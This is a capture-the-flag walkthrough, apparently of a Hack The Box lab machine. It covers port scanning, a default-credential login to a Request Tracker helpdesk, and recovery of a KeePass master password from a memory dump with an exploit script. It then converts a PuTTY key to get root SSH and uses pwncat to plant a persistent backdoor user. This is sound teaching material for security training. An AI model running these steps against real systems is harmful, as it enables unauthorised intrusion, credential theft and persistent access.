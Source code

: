 we start the machine with the classic port scan:
	
	rustscan -a 10.10.11.227
output:
	
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
so now that we know the open ports we can do a more accurate scan:
	
	nmap -sC -sV -p22,80 10.10.11.227
output:
	
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
	|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
	80/tcp open  http    nginx 1.18.0 (Ubuntu)
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
so far nothing strange so let's enumerate the port 80:
	
![ip and port](./ip.png)
	
the site is telling us to visit this new page:
	
	To raise an IT support ticket, please visit tickets.keeper.htb/rt/
on this domain:
	
	tickets.keeper.htb
so we need to update our /etc/hosts file:
	
	echo '10.10.11.227	keeper.htb	tickets.keeper.htb' >> /etc/hosts
now we can visit the site and this appears:
	
![login page](./login.png)
	
this looks like an actual ticketing service for helpdesk.
so i tried to search it online and found this:
	
	https://bestpractical.com/request-tracker
so it is an actul software, so i searched default credentials or exploits;
i had like with the first guess in fact they are:
	
	username: root
	password: [REDACTED]
so we can now log in.
the site is pretty basic and i didn't find neither exploits or post-auth RCE;
so i searched in the account info for some stored creds or stuff like that and found this:
	
![credentials](./credentials.png)
	
now we can try and log in with the user that we see (i will use pwncat-cs for the SSH connection):
	
	python3 -m pwncat
and then inside pwncat interactive shell:
	
	connect ssh://lnorgaard:[REDACTED]@keeper.htb:22 
in fact we are in as the lnorgaard user!
	
	(remote) lnorgaard@keeper:/home/lnorgaard$
inside the home directory of the user we found a strange .zip file:
	
	-rw-r--r-- 1 root      root       87391651 Sep 23 19:02 RT30000.zip
when we unzip it inside we find:
	
	-rw-r----- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
	-rw-r----- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
i downloaded the .dmp file for passcracking as this article about KeePass password recovery says:
	
	https://github.com/CMEPW/keepass-dump-masterkey
i downloaded the file with scp (i could also use pwncat downlaod feature):
	
	scp lnorgaard@keeper.htb:/home/lnorgaard/KeePassDumpFull.dmp ./KeePassDumpFull.dmp
after the password prompt we can go on and try to crack the KeePass archive with the script inside
the github repo linked above (i only copied and saved the script to an exploit.py file):
	
	python3 exploit.py KeePassDumpFull.dmp
output:
	
	Possible password: ●,dgr●d med fl●de
	Possible password: ●ldgr●d med fl●de
	Possible password: ●`dgr●d med fl●de
	Possible password: ●-dgr●d med fl●de
	Possible password: ●'dgr●d med fl●de
	Possible password: ●]dgr●d med fl●de
	Possible password: ●Adgr●d med fl●de
	Possible password: ●Idgr●d med fl●de
	Possible password: ●:dgr●d med fl●de
	Possible password: ●=dgr●d med fl●de
	Possible password: ●_dgr●d med fl●de
	Possible password: ●cdgr●d med fl●de
	Possible password: ●Mdgr●d med fl●de
at first this ouput seamed meaningless but after some copy paste on google and CHAT-GPT i found out
(the comments on the webserver now makes sense) that
this is a nordic word for a cake or stuff like that; but we need to format it right:
	
	[REDACTED] med fløde
now we can open the .kdbx vault and see what's inside.
to do that we need to render the keepass file with its own programm:
	
	sudo apt install keepass2
now just type on the terminal:
	
	keepass2
and it will prompt the app where we can insert the file and the password we cracked
and we will see this:
	
![keepass app](./keepass.png)
	
now we have the ssh id_rsa of root user that i saved as '_key.root.ppk_';
but it's not like a regular id_rsa key, in fact it is a putty private key, so we need to convert it
to a rsa key in order to log with ssh client.
To do that i found this discussion online:
	
	https://superuser.com/questions/232362/how-to-convert-ppk-key-to-openssh-key-under-linux
in particular this comand is perfect for us! :
	
	puttygen id_dsa.ppk -O private-openssh -o id_dsa
so after installing puttygen with:	
	
	sudo apt install putty-tools
we can now run the command above with our saved key file:
	
	puttygen key.root.ppk -O private-openssh -o id_rsa
we now have a id_rsa file that we can use to log in as root:
	
	chmod 600 id_rsa
and then:
	
	ssh -i id_rsa root@keeper.htb
we are finally root and we can submit the root flag.
	
![root terminal](./root.png)
	
for test sake i runned the pwncat module to install persitence on the machine with just one command:
	
![persistence with pwncat](./persistence.png)
	
so now we can log in with ssh as Disturbante user and enter as root whenever we want:
	
	ssh Disturbante@keeper.htb	#input Disturbante as password
and u will enter as root:
	
	Disturbante@keeper.htb's password: 
	Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
	
	Last login: Sat Sep 23 20:00:50 2023 from 10.10.14.238
	root@keeper:~# 


